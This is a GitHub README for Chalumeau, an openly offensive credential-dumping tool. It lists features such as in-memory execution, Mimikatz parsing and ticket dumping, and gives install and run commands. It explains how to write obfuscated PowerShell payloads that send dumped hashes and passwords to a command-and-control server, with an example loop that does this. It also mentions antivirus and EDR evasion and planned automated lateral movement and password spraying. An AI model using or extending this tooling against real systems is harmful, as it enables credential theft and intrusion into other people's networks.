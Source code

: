 <h1 align="center">
<img src="screenshots/logo.png"><br>
Chalumeau
</h1>

Chalumeau is automated,extendable and customizable credential dumping tool based on powershell and python.  

### Main Features
- Write your own Payloads
- In-Memory execution
- Extract Password List
- Dashboard reporting / Web Interface
- Parsing Mimikatz
- Dumping Tickets

### Screenshots
<h1 align="center">
<img src="screenshots/c1.png"><br>
</h1>

### Known Issues
- Parsing Mimikatz dcsync (working on fix)
- Bypassing Antivirus and EDRs , you will need to maintain your payloads

### TODO
- Encrypted Communication
- Automated Lateral movement
- Automated Password Spraying 
- Automated Hash Cracking

### Using
```
git clone https://github.com/cyberstruggle/chalumeau.git
cd chalumeau/
chmod +x install.sh
sudo ./install.sh

# Run
chmod +x start.sh

sudo ./start.sh
```
### Write your own payload
obfuscate your own powershell payload for dumping credentials and use chalumeau function call without any imports
chalumeau will Encrypt and contact with the c2 and sending the dumped credentials.
just save the file under chalumeau-power/payloads
- Using ChalumeauSendCredentials Function
    - ChalumeauSendCredentials
        - Secret        = the dumped hash or clear text password (string)
        - Username      = the username of id of the dumped credential (string)
        - IsClearText   = 1 if it's clear text 0 if it's not (int)
        - Source        = mention the Source payload like "Mimikatz Hash" (string)

```powershell
# Custom Payload Example
# $DumpedHashes is array of dumped hashes from the local machine
foreach ($hash in $DumpedHashes){
    ChalumeauSendCredentials -Secret $hash.secret -Username $hash.user -IsClearText 0 -source "My custom payload"
} 
```

## Credits
* wazehell [Author](https://twitter.com/safe_buffer)
* Invoke-Obfuscation [Daniel Bohannon](https://github.com/danielbohannon/Invoke-Obfuscation)
* Invoke-Mimikatz [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
* Get-PassHashes [nishang](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)
* Chalumeau Logo [Aureliano](https://twitter.com/aurelbedelia)
* Invoke-MassMimikatz [PowerTools](https://github.com/PowerShellEmpire/PowerTools/blob/master/PewPewPew/Invoke-MassMimikatz.ps1)